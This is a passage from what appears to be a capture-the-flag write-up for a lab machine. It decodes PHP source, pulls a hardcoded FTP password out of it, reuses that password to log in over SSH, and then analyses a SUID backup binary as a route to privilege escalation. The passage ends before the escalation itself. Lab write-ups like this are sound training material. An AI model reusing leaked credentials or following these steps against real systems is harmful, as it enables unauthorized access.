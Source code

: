 Base64 decode it:

```bash
cat b64-index.php | base64 -d > index.php
```

Viewing the source code I find this:

```
if (@ftp_login($conn_id, "chiv", 'N0bodyL1kesBack/')) {
```

We can use this password to login with ssh

```bash
ssh chiv@10.10.10.183
```

### Enumerating as chiv

Running linpeas there's a SUID file called `backup`

```bash
[+] SUID - Check easy privesc, exploits and write perms
-r-sr-xr-x 1 pain   pain             14K Mar  6  2020 /usr/bin/backup
```

```bash
/usr/bin/backup 
----------------------------------------------------------------------
        Pain's Next-Gen Time Based Backup Viewer
        v0.1
        NOTE: not reading the right file yet, 
        only works if backup is taken in same second
----------------------------------------------------------------------

Current Time: 17:38:24
ERROR: 57d05eedecbdef988d4e52a0e9d2ebab Does Not Exist or Is Not Accessible By Me, Exiting...
```

`57d05eedecbdef988d4e52a0e9d2ebab` looks like md5sum, and it's the binary it's giving us the time, and everytime I run it, the string changes so I'll md5sum the time and check if it's the same:

```bash
echo -n 17:38:24 | md5sum
57d05eedecbdef988d4e52a0e9d2ebab  -
```

It is doing md5sum, we can use ltrace to see what it does:
